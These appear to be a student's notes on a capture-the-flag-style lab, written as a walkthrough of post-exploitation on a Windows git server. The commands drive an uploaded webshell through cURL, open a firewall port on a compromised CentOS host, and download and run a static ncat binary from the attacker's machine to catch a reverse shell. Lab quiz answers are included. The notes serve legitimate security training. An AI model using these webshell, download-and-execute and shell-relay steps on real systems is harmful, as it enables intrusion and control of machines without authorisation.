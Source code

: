 In the previous task we had a look through the source code of the exploit we found, identified the lines which needed to be updated, then made the necessary changes.

![[Exploitation-20241222141211867.webp]]

Success!

Not only did the exploit work perfectly, it gave us command execution as NT AUTHORITY\SYSTEM, the highest ranking local account on a Windows target.

From here we want to obtain a full reverse shell. We have two options for this:

1. We could change the command in the exploit and re-run the code
2. We could use our knowledge of the script to leverage the same webshell to execute more commands for us, without performing the full exploit twice

Option number two is a lot quieter than option number 1, so let's use that.

---

The webshell we have uploaded responds to a POST request using the parameter "`a`" (by default). This means that we have two easy ways to access this. We could use cURL from the command line, or BurpSuite for a GUI option.

## With cURL  
`curl -X POST http://IP/web/exploit-USERNAME.php -d "a=COMMAND"`

![[Exploitation-20241222145319679.webp]]

> [!Note]
>In this screenshot,_`gitserver.thm` has been added to the `/etc/hosts` file on the attacking machine, mapped to the target IP address.


## With BurpSuite
We first turn on our Burp proxy (see the [Burpsuite room](https://tryhackme.com/room/rpburpsuite) if you need help with this!) and navigate to the exploit URL:

![[Exploitation-20241222145720411.webp]]

Press send, and see the response come in!

![[Exploitation-20241222145746536.webp]]

With two methods available, pick your favorite and we'll aim for a shell!


---
# Your job

- Create a webshell with cURL.
	`curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=whoami"`
	
	![[Exploitation-20241222152701712.webp]]
- Check the target for information.
	`curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=systeminfo"`
	 ![[Exploitation-20241222152545435.webp]]

> [!Question]
>1. First up, let's use some basic enumeration to get to grips with the webshell: What is the hostname for this target?
>`git-serv`
>2. What operating system is this target?
>`Windows`
>3. What user is the server running as?
>`NT AUTHORITY\SYSTEM`


Before we go for a reverse shell, we need to establish whether or not this target is allowed to connect to the outside world. The typical way of doing this is by executing the `ping` command on the compromised server to ping our own IP and using a network interceptor (Wireshark, TCPDump, etc) to see if the ICMP echo requests make it through. If they do then network connectivity is established, otherwise we may need to go back to the drawing board.

**On the attacking machine:**
To start up a TCPDump listener we would use the following command:  
`tcpdump -i tun0 icmp`  

> [!Note]
>If your VPN is not using the tun0 interface then you will need to replace this with the correct interface for your system which can be found using `ip -a link` to see the available interfaces.

Now, using the webshell, execute the following ping command (substituting in your own VPN IP!):  
`ping -n 3 ATTACKING_IP`

Run:
$ `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=ping -n 3 10.50.85.33"`

![[Exploitation-20241224144002376.webp]]

> [!Question]
> 4. How many make it to the waiting listener?
> `0`


---

## Firewall

Looks like we're going to need to think outside the box to catch this shell.

We have two easy options here:

- Given we have a fully stable shell on .200, we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat) and just catch the shell here.
- We could set up a relay on .200 to forward a shell back to a listener.

It is up to you which option you choose (although for the sake of practice, a socat relay is suggested); however, whichever way you choose, please be mindful of other users at earlier stages of the network and **ensure that any ports you open are above 15000.**

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:  
`firewall-cmd --zone=public --add-port PORT/tcp`  
Substituting in your desired choice of port.

In this command we are using two switches. First we set the zone to public -- meaning that the rule will apply to every inbound connection to this port. We then specify which port we want to open, along with the protocol we want to use (TCP).

- Create a Firewall rule.
	- Connect to the prod-server (10.200.84.200) via SSH.
		$ `ssh root@10.200.84.200 -i id_rsa`
	- Create a Firewall rule to allow connections through.
		root@prod-serv ~# `firewall-cmd --zone=public --add-port 23337/tcp`
	- Get **ncat** binary from attacker machine.
		- Download ncat from https://github.com/andrew-d/static-binaries.git.
			$ `git clone https://github.com/andrew-d/static-binaries.git`
		- Open a Python Webserver.
			$ `sudo python3 -m http.server 80`
		- On the Reverse Shell terminal run:
			root@prod-serv ~# `curl 10.50.85.33/ncat -o /tmp/ncat-sv && chmod +x /tmp/ncat-sv`
		- Open a listener on the Reverse Shell.
			root@prod-serv tmp# `./ncat-sv -nvlp 23337`

- On the attacking machine use powershell reverse-shell one-liner with webshell using curl.
- `curl -X POST http://10.200.84.150/web/exploit-KAIROS.php -d "a=<URL-encoded command>"`



- **Bonus Question (Optional):** Using the given code for the exploit we used against the web server, see if you can adapt this exploit to create a full pseudoshell environment.